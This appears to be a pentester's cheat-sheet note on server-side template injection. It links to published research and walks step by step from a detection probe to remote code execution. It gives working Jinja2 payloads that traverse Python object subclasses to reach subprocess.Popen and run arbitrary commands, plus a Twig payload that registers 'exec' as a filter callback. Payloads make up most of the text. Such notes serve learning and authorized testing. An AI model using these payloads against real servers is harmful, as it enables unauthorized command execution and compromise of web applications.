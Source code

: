 #### Sometimes when user input is accepted, either intentional or unintentional we get XSS, sometimes this also means we cen get template injection
To determine backend use: https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68

[Report on Template Injection](https://portswigger.net/research/server-side-template-injection)

test with `{{'7'*7}}`

`{{''.__class__.mro()[1].__subclasses__()}}` _you may need to change dict selection of class to get the output of interesting functions_

_once you find it, do a replace all '>' with a newline, so that you can determine which number to specify as subclass_

Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.
You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <class 'subprocess.Popen'>:

`{{''.__class__.mro()[1].__subclasses__()[X]}}`

Where X is the integer you need to find.

Finally, you can call this method using:

`{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}`  
`{{''.__class__.mro()[2].__subclasses__()[233](["PATH_TO_BINARY","ARG_1"])}}`

Where:

`X` was found previously.
`COMMAND` is the command you want to run.
Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).

**Another injection for code execution**
`{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}`
